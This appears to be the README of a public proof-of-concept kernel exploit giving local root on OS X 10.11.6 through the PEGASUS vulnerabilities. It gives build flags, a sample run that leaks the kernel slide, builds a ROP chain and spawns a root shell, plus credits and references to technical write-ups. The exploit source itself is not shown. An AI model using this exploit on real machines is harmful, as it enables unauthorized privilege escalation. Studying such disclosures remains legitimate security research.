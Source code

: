  * Local privilege escalation for OS X 10.11.6 via PEGASUS

 * by Min(Spark) Zheng @ Team OverSky (twitter@SparkZheng weibo@蒸米spark)

 * Note:   
         1. If you want to test this exp, you should not install Security Update 2016-001 
            (like iOS 9.3.5 patch for PEGASUS).  
         2. I hardcoded a kernel address to calcuate kslide, it maybe different on your mac.  

 
 * Compile:  
   clang -framework IOKit -framework Foundation -framework CoreFoundation -m32 -Wl,-pagezero_size,0 -O3 exp.m lsym.m -o exp

 * Run the exp:  
    MacBookPro:PEGASUS zhengmin$ ./exp   
    getting kslide...  
    kslide=0x8e00000  
    building the rop chain...  
    exploit the kernel...  
    sh-3.2# whoami  
    root  
    sh-3.2# uname -a  
    Darwin MacBookPro 15.6.0 Darwin Kernel Version 15.6.0: Thu Jun 23 18:25:34 PDT 2016; root:xnu-3248.60.10~1/RELEASE_X86_64 x86_64  


 * Special Thanks to proteas, qwertyoruiop, windknown, aimin pan, jingle, liangchen, qoobee, 
   cererdlong, eakerqiu, etc.
 
 * Reference:   
              1. http://blog.pangu.io/cve-2016-4655/  
              2. https://sektioneins.de/en/blog/16-09-02-pegasus-ios-kernel-vulnerability-explained.html  
              3. https://bazad.github.io/2016/05/mac-os-x-use-after-free/  
              4. https://github.com/kpwn/tpwn  
   
